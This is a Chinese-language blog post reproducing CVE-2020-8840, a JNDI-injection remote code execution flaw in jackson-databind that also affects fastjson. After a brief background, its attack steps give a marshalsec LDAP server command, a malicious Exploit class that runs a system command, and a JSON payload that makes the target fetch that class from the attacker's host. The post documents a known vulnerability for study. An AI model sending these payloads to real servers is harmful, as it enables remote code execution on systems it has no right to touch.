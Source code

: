 ```yaml
---
layout:     post
title:      "jackson-databind反序列化利用链fastjson复现（CVE-2020-8840）"
subtitle:   ""
date:       2020-09-09 12:00:00
author:     "seal"
header-img: "img/post-bg-infinity.jpg"
tags:
    - 反序列化
    - 漏洞复现
typora-root-url: ../../luckseal.github.io
---
```


# 漏洞介绍

2月19日，NVD发布安全通告披露了jackson-databind由JNDI注入导致的远程代码执行漏洞（CVE-2020-8840），CVSS评分为9.8  。受影响版本的jackson-databind中由于缺少某些xbean-reflect/JNDI黑名单类，如org.apache.xbean.propertyeditor.JndiConverter，可导致攻击者使用JNDI注入的方式实现远程代码执行。



# 漏洞前提

1、使用了xbean-reflect jar 包

2、使用了反序列化库，并反序列化参数用户可控（已知影响fastjson以及jackson）

3、被攻击机可向外访问攻击机主机



# 攻击方法

## 以fastjson为例：

### 1、攻击者开启rmi或ldap

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.132.1/#Exploit" 9999
```



### 2、攻击者部署恶意攻击类

地址：`http://192.168.132.1/Exploit.class`

源码：
```
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            // do nothing
        }
    }
}
```



### 3、发送攻击payload
```
{
    "xxx":{
        "@type":"org.apache.xbean.propertyeditor.JndiConverter",
        "asText":"ldap://192.168.132.1:9999/Exploit",
    }
}
```

